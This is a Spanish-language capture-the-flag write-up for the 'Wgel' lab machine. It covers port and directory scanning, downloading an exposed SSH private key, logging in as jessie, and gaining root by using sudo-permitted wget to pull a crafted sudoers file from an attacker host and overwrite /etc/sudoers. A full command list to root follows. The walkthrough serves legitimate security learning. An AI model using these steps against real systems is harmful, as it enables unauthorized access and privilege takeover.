# Write-up Wgel

## Enumeración

### Escaneo inicial

Empiezo con un escaneo para identificar puertos y servicios expuestos:

`nmap -T4 IP`

Después lanzo un escaneo más detallado sobre los puertos encontrados:

`nmap -sC -sV -O -T4 -p 22,80 IP`

Puertos encontrados:

- 22/tcp SSH
- 80/tcp HTTP



### Enumeración web

Al revisar el código fuente de la página principal encuentro un comentario que revela un posible usuario:

`jessie`



Lanzo una enumeración de directorios con `gobuster`:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Encuentro la ruta:

- `/sitemap/`



Continúo enumerando dentro de `/sitemap/`:

`gobuster dir -u http://IP/sitemap/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q`

Encuentro un directorio sensible:

- `/sitemap/.ssh/`



### Clave privada expuesta

Al acceder a `/sitemap/.ssh/` veo que se expone una clave privada SSH:

`id_rsa`

La descargo con `wget`:

`wget http://IP/sitemap/.ssh/id_rsa`



## Explotación

### Acceso por SSH como `jessie`

Primero ajusto los permisos de la clave privada:

`chmod 600 id_rsa`

Después me conecto por SSH usando el usuario descubierto en el código fuente:

`ssh -i id_rsa jessie@IP`

Con esto consigo acceso a la máquina como `jessie`.



## Post-explotación

### Flag de usuario

Dentro de la máquina localizo la flag de usuario en el directorio `Documents` del usuario `jessie`.



### Enumeración de privilegios

Reviso qué comandos puede ejecutar `jessie` con `sudo`:

`sudo -l`

El resultado muestra que puede ejecutar `wget` como `root` sin contraseña:

`(root) NOPASSWD: /usr/bin/wget`



## Escalado de privilegios

### Abuso de `wget` con `sudo`

Como `jessie` puede ejecutar `wget` como `root`, puedo sobrescribir archivos del sistema descargando contenido desde mi máquina atacante.

En mi máquina creo un archivo `sudoers` que permite a `jessie` ejecutar cualquier comando como `root` sin contraseña:

`echo 'jessie ALL=(ALL) NOPASSWD:ALL' > sudoers`

Después levanto un servidor HTTP en el directorio donde está el archivo:

`python3 -m http.server 80`

Desde la máquina víctima descargo ese archivo y lo escribo sobre `/etc/sudoers` usando `wget` con `sudo`:

`sudo /usr/bin/wget http://IP-KALI/sudoers -O /etc/sudoers`



También se puede comprobar la transferencia en la máquina atacante.



### Shell como `root`

Compruebo de nuevo los permisos de `sudo`:

`sudo -l`

Ahora el usuario `jessie` puede ejecutar cualquier comando como `root`. Lanzo una shell privilegiada:

`sudo su`

Con esto obtengo una shell como `root`.



### Flag de root

La flag de root se encuentra en:

`/root/root.txt`



## Resultado

Consigo acceso total a la máquina aprovechando una clave privada SSH expuesta en el servidor web. Con esa clave entro como `jessie` y, después, escalo privilegios abusando de una mala configuración de `sudo` que permite ejecutar `/usr/bin/wget` como `root` sin contraseña.

## Resumen de comandos hasta root

- `nmap -T4 IP`
- `nmap -sC -sV -O -T4 -p 22,80 IP`
- Revisar el código fuente de `http://IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `gobuster dir -u http://IP/sitemap/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q`
- `wget http://IP/sitemap/.ssh/id_rsa`
- `chmod 600 id_rsa`
- `ssh -i id_rsa jessie@IP`
- `sudo -l`
- `echo 'jessie ALL=(ALL) NOPASSWD:ALL' > sudoers`
- `python3 -m http.server 80`
- `sudo /usr/bin/wget http://IP-KALI/sudoers -O /etc/sudoers`
- `sudo -l`
- `sudo su`
- `cat /root/root.txt`
